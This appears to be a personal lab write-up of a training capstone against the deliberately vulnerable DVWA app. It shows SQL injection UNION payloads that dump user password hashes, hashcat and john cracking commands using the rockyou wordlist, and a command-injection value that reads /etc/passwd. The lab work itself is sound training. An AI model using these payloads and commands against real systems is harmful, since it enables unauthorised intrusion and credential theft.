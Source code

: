 I manged to use sql to show the user database and password.

```
1' OR 1=1 UNION SELECT user_id, password FROM users #
```

![[Pasted image 20240620141258.png]]

I can now crack the passwords with hashcat or john.

```
hashcat -m 0 -a 0 -o cracked.txt hashes.txt /usr/share/wordlists/rockyou.txt 
```

![[Pasted image 20240620142548.png]]

The first hash is the admin pass that i used to log in.

I did all of the passes just in case they are needed later:

![[Pasted image 20240620144918.png]]

```
john --show --format=RAW-MD5 hashes.txt
```

Having trouble logging in for some reason.

##### Task

###### Locate and open the file with Challenge 1 code.

1. Log into **172.17.0.2** as **Gordon Brown**.
2. Locate and open the flag file in the user's home directory.

I need to find his username so i'm going through some union attacks.

Finding the number of tables

```
1 UNION SELECT null,null--'
```

![[Pasted image 20240620152856.png]]

We can also do order by to find the columns:

![[Pasted image 20240620154235.png]]

![[Pasted image 20240620154259.png]]

I try to determine if the columns are strings or numbers by changing the null to either a number or string to see if the server returns an error, in this case they are numbers.

We use the firefox extension hackbar to help us enumerate, but we could have just as easily used Burp:
![[Pasted image 20240620155624.png]]

```
http://172.17.0.2/dvwa/vulnerabilities/sqli/?id=%27 UNION SELECT 1,CONCAT_WS(CHAR(32,58,32),user(),database(),version()) -- &Submit=Submit#
```

I find some more strings from hacktricks
```
SELECT group_concat(<COLUMN>) FROM <TABLE>
SELECT group_concat(if(strcmp(table_schema,database()),table_name,null))
SELECT group_concat(CASE(table_schema)When(database())Then(table_name)END)
```

---

I remembered about command injection and tried to see if i could get a username from that

```
192.168.78.6;cat /etc/passwd
```

I get gordons username, and i'm quite annoyed i didn't try it. It must have been one of the only name combos i didn't try, but that's okay! 

![[Pasted image 20240620160856.png]]

We can now log in and finish part one of the capstone, but it's getting late so i'll have to start first thing in the morning. 

Before i finish i log into the gordonb account to verify it's correct, and it is.

![[Pasted image 20240620161100.png]]

